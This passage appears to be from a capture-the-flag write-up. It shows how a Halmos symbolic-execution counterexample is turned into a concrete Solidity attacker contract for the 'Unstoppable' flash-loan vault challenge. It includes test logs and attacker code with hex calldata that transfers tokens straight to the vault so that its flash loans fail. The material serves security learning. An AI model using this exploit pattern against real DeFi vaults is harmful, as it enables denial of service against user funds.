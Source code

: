 ```bash
Running 1 tests for test/unstoppable/Unstoppable_Halmos.t.sol:UnstoppableChallenge
[console.log] 0x00000000000000000000000000000000000000000000000000000000aaaa0002
[console.log] 0x00000000000000000000000000000000000000000000000000000000aaaa0003
[console.log] 0x00000000000000000000000000000000000000000000000000000000aaaa0004
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa000300000000000000000000000000000000000000000000000003c723168ff988000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
```
So, it was "vault" contract. Attacker sends some tokens to vault contract and it should lead to flashloan error.
## Using of counterexample 
First of all, let's find "vault" contract address in forge. We'll use the same console logging here and this is what we got:
```bash
forge test -vv --mp test/unstoppable/Unstoppable.t.sol
...
Logs:
  0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b
  0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264 // This is vault address in forge
  0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5
  ...
```
Implement non-abstract attacker contract:
```javascript
// SPDX-License-Identifier: MIT
pragma  solidity =0.8.25;
import  "../../lib/halmos-cheatcodes/src/SymTest.sol";
import  "forge-std/Test.sol";
contract  AbstractAttacker  is  Test, SymTest {
	mapping (uint256  =>  address) known_addresses;
	uint256 known_next_index =  0;
	
	function  add_known_address(address  known) public {
		known_addresses[known_next_index] = known;
		known_next_index++;
	}
	function  attack() public {
		uint256 contract_index =  0x0000000000000000000000000000000000000000000000000000000000000000; // Contract index is not symbolic, just paste value from counterexample
		for (uint256 i =  0; i < known_next_index; i++) {
			if (i == contract_index) {
				address to_call = known_addresses[i];
				// Paste hex from counterxample here, but replace receiver address with the correct one
				bytes  memory data = hex"a9059cbb0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b26400000000000000000000000000000000000000000000000003c723168ff988000000000000000000000000000000000000000000000000000000000000000000";
				(bool success, ) = to_call.call(data);
				if (!success) {
					revert();
				}
			}
		}
	}
}
```
This is an exact copy of AbstractAttacker, except we've replaced the symbolic values ​​with concrete values ​​from the counterexample.
And test_unstoppable():
```javascript
```